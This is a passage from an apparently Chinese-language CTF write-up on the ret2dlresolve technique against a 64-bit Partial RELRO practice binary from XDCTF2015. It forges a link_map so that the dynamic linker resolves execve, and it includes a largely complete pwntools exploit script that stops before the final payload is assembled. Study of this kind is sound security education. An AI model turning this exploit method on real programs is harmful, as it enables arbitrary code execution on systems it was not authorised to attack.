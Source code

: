 我们可以选择绕过第一个if

- 解析的函数实际地址计算方式为`value = l->l_addr + sym->st_value`
- 伪造一个`link_map`，将`DT_SYMTAB`的指针指向got表中的第一个函数 - `0x8`的位置
- 那么我们的`sym->st_other`恰好不为`0`且`sym->st_value`指向该函数的实际地址
- 再将`l->l_addr`设置为`execve`和got表第一个函数的偏移
- 最终就可以解析出`execve`函数

> 我们伪造的`link_map`需要的数据为:`l_addr`，`DT_STRTAB`指针，`DT_SYMTAB`指针，`DT_JMPREL`指针

DT_STRTAB指针：`link_map` + 0x68 (32位下为：0x34)
DT_SYMTAB指针：`link_map` + 0x70 (32位下为：0x38)
DT_JMPREL指针：`link_map` + 0xF8 (32位下为：0x7C)

payload如下

```python
from pwn import *
context(arch='amd64', os='linux', log_level='debug')
p   = process('./main_partial_relro_64')
elf = ELF('./main_partial_relro_64')
libc= ELF('/lib/x86_64-linux-gnu/libc.so.6')

def csu(fun, edi, rsi, rdx):
    payload = b''
    payload += p64(csu_part2)
    payload += p64(0)    # add rsp, 8
    payload += p64(0)    # pop rbx
    payload += p64(1)    # pop rbp
    payload += p64(fun)    # pop r12
    payload += p64(edi)    # pop r13
    payload += p64(rsi)    # pop r14
    payload += p64(rdx)    # pop r15
    payload += p64(csu_part1)
    payload += p64(0) * 7
    return payload

dl          = 0x400506
DT_STRTAB   = 0x600EA0
csu_part1    = 0x400780
csu_part2    = 0x400796
bss_addr    = elf.bss() + 0x30
read_got    = elf.got['read']
write_got   = elf.got['write']
vuln_addr    = elf.symbols['vuln']
l_addr        = libc.symbols['execve'] - libc.symbols['write']

if l_addr < 0:  
   l_addr = l_addr + 0x10000000000000000

gdb.attach(p, 'b _dl_fixup\nc\n')

p.recvuntil('Welcome to XDCTF2015~!\n')

# 伪造各个节
payload1  = p64(6) + p64(write_got - 0x8 - 0x18)        # DT_SYMTAB
payload1 += p64(0x17) + p64(bss_addr + 0x8 * 4)         # JMPREL
payload1 += p64(write_got) + p64(0x100000007) + p64(0)    # Elf64_Rel
# 伪造link_map
payload2  = p64(l_addr)
payload2  = payload2.ljust(0x68, b'\x00')
payload2 += p64(DT_STRTAB)                              # 指向字符串表
payload2 += p64(bss_addr)                               # 指向伪造的Elf64_Sym
payload2  = payload2.ljust(0xF8, b'\x00')
payload2 += p64(bss_addr + 0x8 * 2)                     # 指向伪造的Elf64_Rel
# 合成最终payload
```